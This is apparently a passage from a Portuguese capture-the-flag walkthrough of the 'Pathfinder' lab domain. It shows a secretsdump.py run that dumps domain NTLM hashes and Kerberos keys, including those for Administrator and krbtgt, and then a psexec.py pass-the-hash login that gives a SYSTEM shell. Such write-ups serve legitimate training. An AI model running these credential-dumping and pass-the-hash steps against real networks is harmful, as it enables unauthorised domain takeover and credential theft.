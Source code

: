 ```bash
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30                                                                                                  126 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:7e2b4bffb0d54e17b7528cb122bae602:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:9e07592ae55cfd43c84e85a477854c8e3f40c70630ea24bebdeda66a15e77e18
PATHFINDER$:aes128-cts-hmac-sha1-96:4de068761918fa0005de10f361b49703
PATHFINDER$:des-cbc-md5:6d37cd7904b6f7f2
[*] Cleaning up... 
```

Com a hash do administrador, podemos utilizar a técnica de `Pass The Hash` (PTH), onde conseguimos nos autenticar no host não com a senha, mas com a hash do usuário. Para isso podemos utilizar o `psexec.py`.

```bash
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file vpCRwyDb.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service btXJ on 10.10.10.30.....
[*] Starting service btXJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
